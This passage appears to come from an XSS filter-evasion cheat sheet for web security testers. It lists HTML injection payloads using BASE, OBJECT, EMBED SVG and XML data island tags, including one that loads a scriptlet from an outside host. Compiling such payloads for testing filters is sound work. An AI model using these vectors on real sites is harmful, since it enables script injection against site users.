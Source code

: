 ### BASE Tag

(Works on IE in safe mode) This attack needs the `//` to comment out the next characters so you won't get a JavaScript error and your XSS tag will render. Also, this relies on the fact that many websites uses dynamically placed images like `images/image.jpg` rather than full paths. If the path includes a leading forward slash like `/images/image.jpg`, you can remove one slash from this vector (as long as there are two to begin the comment this will work):

```html
<BASE HREF="javascript:alert('XSS');//">
```

### OBJECT Tag

If the system allows objects, you can also inject virus payloads that can infect the users, etc with the APPLET tag. The linked file is actually an HTML file that can contain your XSS:

```html
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

### EMBED SVG Which Contains XSS Vector

This attack only works in Firefox:

```html
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

(Thanks to nEUrOO for this one)

### XML Data Island with CDATA Obfuscation

This XSS attack works only in IE:

```html
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

### Locally hosted XML with embedded JavaScript that is generated using an XML data island

This attack is nearly the same as above, but instead it refers to a locally hosted (on the same server) XML file that will hold your XSS vector. You can see the result here:

```html
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

### HTML+TIME in XML
